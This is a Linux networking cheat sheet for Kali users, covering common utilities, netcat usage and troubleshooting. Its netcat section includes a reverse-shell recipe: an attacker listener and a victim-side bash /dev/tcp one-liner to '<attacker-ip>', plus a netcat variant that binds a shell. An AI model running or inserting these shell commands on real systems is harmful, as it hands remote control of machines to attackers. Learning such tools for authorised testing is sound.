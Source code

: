 # **Networking Commands - Linux Quick Reference**
Recommended OS: Kali Linux

## Table of Contents
- [Network Utilities](#network-utilities)
- [Netcat Commands](#netcat-commands)
- [Network Troubleshooting](#network-troubleshooting)

---

## Network Utilities

- **`ping`**: Test connectivity to a host.  `ping <hostname or ip>`
- **`ifconfig`**: Display network info, like IP address.  `ifconfig`
- **`netstat`**: Show network connections and statistics.  `netstat -tuln`
- **`ss`**: Show socket statistics (replacement for netstat). `ss -tuln`
- **`whois`**: Retrieve WHOIS information for a domain. `whois example.com`
- **`nmap`**: Scan network for hosts and open ports, for one ip, or a range.
  ex. `nmap <ip>` or `nmap 192.168.1.1-20` or `nmap 192.168.1.0/24`
- **`curl`**: Transfer data to and from a server (HTTP, FTP).  `curl http://example.com/file.zip`
- **`route`**: View or modify the routing table.  `route -n`
- **`mtr`**: Diagnostic tool combining ping and traceroute. `mtr <hostname or ip>`
- **`arp`**: Show or modify the ARP (Address Resolution Protocol) table. `arp -a`
- **`wget`**: Download files from the web. `wget http://example.com/file.zip`


---

## Netcat Commands

- **Host listens on port**:  `nc -lvp 1234` (l-listning, v-verbose, p-port)
- **Client connects to host**:  `nc <hostname or ip> 1234`
- **Scan for certain ports in a range**: `nc -zv <hostname> 1-100` (z-scan without full connection)
- **Send file**:  
  1. Receiver (opens port & prepares to save file):  `nc -lvp 4321 > received_file.txt`  
  2. Sender (connects & sends file to receiver’s IP):  `nc <receiver_ip> 4321 < my_file.txt`
- **Reverse Shell**:  
  1. Sender/Attacker (listens for connection)::  `nc -lvp 4444`  
  2. Receiver/Victim (connects & gives interactive shell to attacker):  `bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1`
  - Note: On some systems use `nc -l -p 1234 -e /bin/bash`
- **`ncat`**: Netcat's more secure version for encrypted SSL connections. `ncat --ssl -l 1234`

---

## Network Troubleshooting

- **`dig`**: Query DNS.  `dig example.com`
- **`tcpdump`**: Capture network traffic.  `sudo tcpdump -i eth0` or `sudo tcpdump src host <ip>`
- **`hostname`**: Show or set hostname.  `hostname`
- **`nfsstat`**: Display NFS (Network File System) statistics. `nfsstat -c`
- **`iwconfig`**: Configure wireless network interfaces. `iwconfig wlan0`

---

*Created by MD Harrell*  
For more info, visit the [Kali Linux Docs](https://www.kali.org/docs/).
